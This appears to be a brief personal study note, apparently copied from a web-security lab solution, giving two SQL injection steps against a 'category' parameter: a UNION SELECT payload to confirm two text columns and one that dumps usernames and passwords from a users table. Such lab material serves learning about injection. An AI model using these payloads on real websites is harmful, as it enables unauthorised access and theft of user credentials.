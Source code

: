 ```yaml
---
dg-publish: true
---
```







1. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:`'+UNION+SELECT+'abc','def'--`
2. Use the following payload to retrieve the contents of the `users` table:`'+UNION+SELECT+username,+password+FROM+users--`